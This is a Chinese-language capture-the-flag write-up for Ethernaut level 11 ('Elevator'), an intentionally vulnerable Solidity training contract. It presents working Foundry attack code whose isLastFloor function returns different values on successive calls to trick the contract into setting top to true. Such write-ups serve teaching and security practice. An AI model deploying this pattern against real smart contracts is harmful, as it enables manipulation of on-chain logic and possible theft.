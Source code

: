 # Ethernaut CTF Writeup

## Level 11 Elevator

> 題目: https://ethernaut.openzeppelin.com/level/0xd8630853340e23CeD1bb87a760e2BaF095fb4009

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

過關條件: 

- 到達頂樓 (`contract.top() == true`)

解法：

- 這次問題需利用外部合約交叉干擾條件判斷來完成任務
- `Elevator` 合約使用 `Building` 外部接口來檢查是否到達最後一層樓 `isLastFloor` ，可以藉由控制 `isLastFloor` 回傳值來欺騙 `Elevator` 合約，使其認為尚未達到最後一層，然後在再次呼叫時告訴合約已經到達最後一層

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Building,Elevator} from "../src/level11/Elevator.sol";

contract ElevatorAttack is Building {
    bool public switchFlipped = false; // 用於控制回傳值

    Elevator public elevator;

    constructor(address _elevatorAddress) {
        elevator = Elevator(_elevatorAddress);
    }

    function isLastFloor(uint256) public returns (bool) {
        // first call
        if (! switchFlipped) {
            switchFlipped = true;
            return false;
        // second call
        } else {
            switchFlipped = false;
            return true;
        }
    }

    function attack() public {
        elevator.goTo(1);
    }
}

contract Attack is Script {
    function run() public {
        vm.startBroadcast();

        // attack contract
        ElevatorAttack attack = new ElevatorAttack(0xfe3D593c0c6fD22f91cAb1bd8E41453BeF01d0d5);
        attack.attack();

        vm.stopBroadcast();
    }
}

```